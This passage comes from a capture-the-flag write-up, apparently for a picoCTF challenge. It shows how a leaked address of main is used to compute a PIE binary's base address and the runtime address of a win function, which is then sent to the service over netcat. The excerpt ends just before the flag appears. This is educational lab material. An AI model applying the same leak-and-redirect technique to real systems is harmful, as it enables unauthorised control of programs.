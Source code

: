 ![Step 2](images/2.png)

> (These offsets are from readelf -s ./vuln  they are the symbol values inside the file.)

### 2. Connect to the remote service and capture the leak

> I connected with netcat (or let pwntools connect) and observed the banner:
```bash
$ nc rescued-float.picoctf.net 56330
Address of main: 0x62f998fa433d
Enter the address to jump to, ex => 0x12345:
```

> The printed 0x62f998fa433d is the runtime address of main — our info leak.

### 3. Compute base and the runtime address of win

> Using the leaked main address and the offset we found locally:
```bash
leaked_main = 0x62f998fa433d
offset_main  = 0x133d
offset_win   = 0x12a7

base   = leaked_main - offset_main
       = 0x62f998fa433d - 0x133d
       = 0x62f998fa3000

target = base + offset_win
       = 0x62f998fa3000 + 0x12a7
       = 0x62f998fa42a7
```

> target is the runtime address of win — we will send that to the program.

### 4. Send the target address and receive the flag

> I sent the hex address string (e.g. 0x62f998fa42a7) to the service. The program jumped to win and printed the flag:
